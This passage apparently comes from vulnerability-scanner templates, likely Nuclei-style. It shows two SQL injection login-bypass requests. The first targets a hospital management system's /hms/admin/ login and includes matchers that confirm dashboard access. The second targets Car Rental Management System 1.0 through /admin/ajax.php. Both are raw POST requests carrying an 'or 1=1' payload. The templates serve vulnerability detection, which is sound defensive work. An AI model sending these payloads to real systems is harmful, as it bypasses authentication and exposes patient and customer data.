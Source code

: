 ```
POST /hms/admin/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271%27%23&password=admin%27+or+%271%27%3D%271%27%23&submit=

```

### Matchers

**Type - word**

- part - body
- words
  1. \<title>Admin | Dashboard\</title>
  2. Manage Patients
  3. Manage Doctors
- condition - and

**Type - status**

- status
  1. 200

---

# Car Rental Management System 1.0 - SQL Injection

## Description

- Car Rental Management System 1.0 contains an SQL injection vulnerability via /admin/ajax.php?action=login. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,login-bypass

## Requests

### Step - 1

```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3D'1'%23&password=admin

```

### Step - 2

